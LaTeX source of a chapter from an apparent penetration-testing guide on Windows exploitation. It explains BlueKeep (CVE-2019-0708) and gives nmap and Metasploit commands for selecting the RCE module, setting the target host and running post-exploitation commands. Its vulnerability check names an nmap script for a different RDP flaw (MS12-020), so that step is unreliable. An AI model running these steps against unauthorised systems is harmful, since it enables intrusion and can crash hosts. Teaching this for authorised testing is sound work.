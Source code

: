 \chapter{Windows System Exploitation}
\label{ch:windows_exploitation}

Windows exploitation covers a range of attack techniques beyond SMB. This chapter
covers BlueKeep, credential-based attacks, and Metasploit exploitation workflows
for Windows targets.

\section{BlueKeep --- CVE-2019-0708}
\label{sec:bluekeep}

BlueKeep is a critical pre-authentication remote code execution vulnerability in
Windows Remote Desktop Services (RDP on port 3389). An unauthenticated attacker
can send specially crafted packets to the RDP service and execute arbitrary code.

\textbf{Affected systems:}
\begin{itemize}
  \item Windows XP, Vista, 7
  \item Windows Server 2003, 2008, 2008 R2
  \item Not affected: Windows 8, 10, Server 2012 onwards
\end{itemize}

\begin{warnbox}
BlueKeep targets kernel-space memory. Running this exploit without the correct
target set will crash the system. Always set the target type before running.
\end{warnbox}

\begin{termbox}
# Check if target is vulnerable
nmap -sV -p 3389 --script rdp-vuln-ms12-020 target_ip

# Metasploit BlueKeep
search BlueKeep
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
show options
set RHOST target_ip
set target 2        # Must set target --- default crashes the system

# Post-exploitation
sysinfo
getuid
\end{termbox}

\section{Metasploit Exploitation Workflow}
\label{sec:msf_exploit_workflow}


